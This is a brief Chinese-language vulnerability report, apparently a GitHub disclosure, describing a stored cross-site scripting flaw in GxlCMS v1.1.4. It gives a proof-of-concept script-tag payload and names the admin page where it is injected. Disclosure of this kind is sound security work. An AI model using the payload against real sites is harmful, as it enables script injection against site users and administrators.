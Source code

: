 






# GxlCMS v1.1.4存在储存xss漏洞

漏洞POC

`123"123>undefined<script>alert(12)</script>`

漏洞位置

​       在`添加小说数据界面`可以输入POC导致XSS触发

http://127.0.0.1/gxl/index.php?s=Admin-Index

![avatar]（http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zn96j30qc0fgjrw.jpg）

漏洞分析

![avatar]（http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zvhvj30lt0aswfs.jpg）

![avatar]（http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zwrcj30yr0aa0tn.jpg）

发现未对代码进行过滤

漏洞证明

![avatar]（http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t1034ej31700d1wgf.jpg）

前台后台均可触发XSS
产品官网
http://www.gxlcms.com







